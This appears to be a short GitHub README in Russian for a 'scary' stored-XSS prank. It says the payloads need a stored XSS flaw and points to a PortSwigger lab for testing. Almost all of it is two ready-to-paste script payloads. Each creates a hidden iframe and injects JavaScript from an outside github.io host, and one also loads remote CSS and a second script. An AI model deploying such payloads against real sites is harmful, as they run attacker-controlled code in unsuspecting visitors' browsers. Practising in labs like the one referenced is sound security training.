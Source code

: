 # Stored-XSS-scary

Код сработает только при наличии уязвимости stored XSS + сайт не будет блокировать загрузку внешних скриптов и стилей. <br>
Для теста можно запустить лабараторку в https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded

------------------------------------------

Обрезанная версия (только запуск музыки):
> <script>var frame = document.createElement("iframe"); frame.style.display = "none"; document.body.appendChild(frame); frame.onload = function() { var script = document.createElement('script'); script.src = 'https://0-dayff13r.github.io/Stored-XSS-scary/start.js'; frame.contentWindow.document.head.appendChild(script)}</script>

Полная версия (музыка + CSS):
> <script>var frame = document.createElement("iframe"); frame.style.display = "none"; document.body.appendChild(frame); frame.onload = function() { var script = document.createElement('script'); script.src = 'https://0-dayff13r.github.io/Stored-XSS-scary/start.js'; frame.contentWindow.document.head.appendChild(script); var cssLink = document.createElement('link'); cssLink.rel = 'stylesheet'; cssLink.href = 'https://0-dayff13r.github.io/Stored-XSS-scary/styles.css'; document.head.appendChild(cssLink); var script2 = document.createElement('script'); script2.src = 'https://0-dayff13r.github.io/Stored-XSS-scary/script.js'; document.body.appendChild(script2);}</script>
